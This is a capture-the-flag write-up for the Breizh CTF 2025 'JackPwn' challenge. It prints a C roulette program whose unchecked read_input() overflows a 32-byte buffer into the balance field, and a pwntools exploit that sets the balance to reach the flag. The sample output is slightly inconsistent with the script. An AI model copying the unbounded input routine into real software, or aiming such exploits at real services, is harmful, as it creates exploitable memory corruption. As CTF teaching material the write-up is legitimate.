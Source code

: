 ```yaml
---
title: "Breizh CTF 2025 - JackPwn"
date: 2025-04-14
tags: ["pwn", "buffer-overflow", "exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```



# JackPwn - Breizh CTF 2025

## Challenge Description

JackPwn is a Pwn category challenge from Breizh CTF 2025. It simulates a roulette game with a vulnerability.

## Binary Analysis

Here is the source code of the binary:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define MISE 2

const char roulette[] = "xRNRNRNRNRNNRNRNRNRRNRNRNRNRNNRNRNRNR";

void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}

int get_random_number() {
    return 1 + (random() % 36);
}

int main() {
    int bille;
    char gagne;
    char valide, rouge, noir, pair, impair;

    struct {
        char mise[32];
        int solde;
    } ctx;

    ctx.solde = 50;

    srand(time(NULL));

    while (ctx.solde > 0) {
        valide = rouge = noir = pair = impair = 0;
        gagne = 0;

        do {
            printf("Solde : %d\n", ctx.solde);
            printf("Votre mise : ");
            fflush(stdout);
            read_input(ctx.mise);

            if (!strcmp(ctx.mise, "rouge")) {
                valide = rouge = 1;
            } else if (!strcmp(ctx.mise, "noir")) {
                valide = noir = 1;
            } else if (!strcmp(ctx.mise, "pair")) {
                valide = pair = 1;
            } else if (!strcmp(ctx.mise, "impair")) {
                valide = impair = 1;
            } else {
                puts("Mise invalide");
            }
        } while (!valide);

        bille = get_random_number();
        printf("La bille s'est stoppée sur la case %d (%c)\n", bille, roulette[bille]);

        if (rouge && roulette[bille] == 'R') {
            gagne = 1;
        } else if (noir && roulette[bille] == 'N') {
            gagne = 1;
        } else if (pair && ((bille % 2) == 0)) {
            puts("pair");
            gagne = 1;
        } else if (impair && ((bille % 2) == 1)) {
            puts("impair");
            gagne = 1;
        } else {
            gagne = 0;
        }

        if (gagne) {
            puts("Gagné");
            ctx.solde += MISE;
        } else {
            puts("Perdu");
            ctx.solde -= MISE;
        }

        if (ctx.solde == 0x1337) {
            char *flag = getenv("FLAG");
            if (flag == NULL) {
                puts("fake_flag");
            } else {
                puts(flag);
            }
            return 0;
        }
    }
}
```

After analysis, we can identify several key points:

1. The program simulates a roulette game where the player can bet on "rouge" (red), "noir" (black), "pair" (even), or "impair" (odd)
2. A `ctx` structure contains two elements:
   - `mise[32]`: a 32-byte buffer to store the bet
   - `solde`: an integer representing the player's balance
3. The flag is displayed only if the balance reaches exactly 0x1337 (4919 in decimal)
4. The `read_input()` function reads characters until it encounters a newline, without checking the buffer size
5. With an initial balance of 50 and gains/losses of only 2, it would take a huge number of rounds to reach 4919

## Vulnerability

The main vulnerability is a classic buffer overflow in the `read_input()` function:

```c
void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}
```

This function does not check the buffer size and continues writing until it encounters a newline. Moreover, when this function is called, the buffer passed as a parameter is `ctx.mise`, which is only 32 bytes. If you enter more than 32 characters, you will overflow into the `solde` field, which is located just after in memory.

## Exploitation

The exploitation strategy is simple:
1. Fill the 32-byte `mise` buffer
2. Write exactly 4 more bytes with the value 0x1337 (4919) into `solde`
3. The value will be considered valid because the buffer is null-terminated (added by `read_input`)

Here is how to exploit this vulnerability:

```python
from pwn import *

HOST = "jackpwn-180.chall.ctf.bzh"
PORT = 1337

p = remote(HOST, PORT)

payload = b"rouge".ljust(32, b"\x00")  
payload += p64(0x1335)                 #0x1337 - 2 align on 64 bits 

p.recvuntil(b"Votre mise : ")
p.sendline(payload)

while True:
    try:
        line = p.recvline(timeout=1).decode().strip()
        print(line)
        if "BZHCTF{" in line:
            break
    except:
        break

p.close()

```

## Flag

After running the exploit, the program detects that the balance is exactly 0x1337 and displays the flag:

```
$ python3 exploit.py
[+] Opening connection to jackpwn.chall.ctf.bzh on port 1337: Done
[+] Receiving all data: Done
[*] Closed connection to jackpwn.chall.ctf.bzh port 1337
Mise invalide
Solde : 4919
Votre mise : 
BZHCTF{j4ckp0t_0v3rfl0w_ftw}
```

